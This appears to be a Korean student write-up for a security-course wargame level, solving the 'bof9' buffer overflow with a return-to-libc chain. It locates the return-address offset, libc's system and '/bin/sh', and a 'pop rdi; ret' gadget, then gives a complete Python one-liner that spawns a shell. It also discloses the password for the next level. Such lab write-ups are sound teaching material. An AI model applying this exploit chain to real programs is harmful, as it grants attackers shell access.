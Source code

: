 # GBC_security HW8  
## bof9 write-up  

### write-up에 앞서, 감비아대령통(빛승준) && 빛병민군의 도움으로 bof9를 해결했습니다.  

bof9를 해결하기 위해 RTL기법을 사용한다.  

1. buf address 와 vuln의 return address 거리를 구함.  
    - ![bof9_1](img/bof9_1.PNG)  
    - ![bof9_2](img/bof9_2.PNG)  
        - 여기서 flags를 조작해서, gets(buf)에서 buf를 구함.  
    - [vuln return address] = 0x7fffffffe4b8  
    - [buf address] = 0x7fffffffe4a8  
    - ![bof9_3](img/bof9_3.PNG)  
    *<u>길이 0x10(16)</u>*  

2. system address 를 구함.
    - 쉽다.  
    - p system으로 구할 수 있다.  
    - ![bof9_4](img/bof9_4.PNG)  
    - *<u>0x7ffff7a52390</u>*  

3. search-pattern /bin/sh으로 /bin/sh의 문자열을 search함.  
    - ![bof9_5](img/bof9_5.PNG)  
    - *<u>0x7ffff7b99d57</u>*  

4. 'pop rdi ; ret' 이 어셈블리어에 해당하는 기계어 코드를 찾아줌.  
    - ![bof9_6](img/bof9_6.PNG)  
    - pop rdi ; ret 이라는 코드가 21102만큼 떨어져있음.  

5. vmmap으로 주소의 시작값 찾아줌.  
    - ![bof9_7](img/bof9_7.PNG)  
    - *<u>[libc의 시작점] = 0x7ffff7a0d000</u>*

6. 시작점과 아까 찾은 값을 더해, pop rdi ; ret의 주솟값을 찾아줌.  
    - ![bof9_8](img/bof9_8.PNG)  
    - *<u>0x7ffff7a2e102</u>*  

7. 그림과 같이,  
    ![capture](img/capture.PNG)  

    1. buf address와 return address 길이(16)만큼 'x'를 채워주고  

    2. pop rdi의 return address를 넣어준다.  
        - 이때, 6바이트만 넣으므로, 2바이트를 널으로 더 넣어준다.  
    3. /bin/sh의 문자열 주솟값을 넣어준다.  
        - 이때도 2바이트를 널으로 채워준다.  
    4. system 주솟값을 넣어준다.  
        - 2바이트를 널으로 채워준다. 8바이트가 아니기 때문.  

8. 완성된 명령.  
```  
(python -c "print 'x'*16+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9  
```  

9. 결과.  
![result](img/bof9_result.PNG)  

> bof10 passwd = `120bf293`  